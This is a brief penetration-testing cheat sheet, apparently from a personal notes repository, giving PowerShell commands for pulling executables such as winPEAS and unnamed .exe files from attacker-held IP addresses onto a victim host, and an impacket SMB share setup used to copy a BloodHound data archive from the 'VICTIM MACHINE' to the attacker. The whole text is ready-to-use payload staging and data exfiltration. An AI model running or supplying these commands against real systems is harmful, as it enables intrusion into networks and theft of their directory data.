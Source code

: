 ## Powershell
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.21.62:80/jagelito.exe','jagelito.exe')"
```

```powershell
powershell Invoke-WebRequest -Uri http://[vpnIP]:[LPORT2]/Message.exe -Outfile Message.exe
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.12:80/winPEASx64.exe','winPEASx64.exe')"
```


## smbserver
ATTACKER MACHINE:
```bash
$ impacket-smbserver share . -smb2support -username aa -password aa
```

VICTIM MACHINE:
```powershell
PS > net use \\10.10.14.12\share /u:aa aa
PS > copy 00000000000000_BloodHound.zip \\10.10.14.12\share\
PS > net use /d \\10.10.14.12\share #REMOVE SHARE.
```
